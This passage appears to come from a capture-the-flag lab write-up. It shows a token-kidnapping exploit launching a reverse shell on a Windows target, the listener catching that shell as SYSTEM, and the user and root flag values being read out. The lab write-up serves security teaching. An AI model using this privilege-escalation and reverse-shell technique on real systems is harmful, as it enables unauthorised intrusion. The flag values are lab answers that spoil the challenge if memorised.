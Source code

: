 Now we should be ready to go!

### Exploitation

Let's use our exploit to obtain an elevated shell.

```bat
c:\windows\system32\inetsrv> C:\tmp\token_kidnapping.exe "C:\tmp\revshell.exe"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.14] 1036
<SNIP>
C:\WINDOWS\TEMP>
```

It caught the reverse shell!

## System enumeration

If we run `whoami`, we see that we're `NT AUTHORITY\SYSTEM`!

### Flags

If we check `Harry`'s Desktop folder, we find the user flag.

```bat
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Harry\Desktop\user.txt"
```

```
bdff5ec67c3cff017f2bedc146a5d869
```

And as usual, we can find the root flag in `Administrator`'s Desktop folder.

```bat
C:\WINDOWS\TEMP> type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

```
9359e905a2c35f861f6a57cecf28bb7b
```

# Afterwords
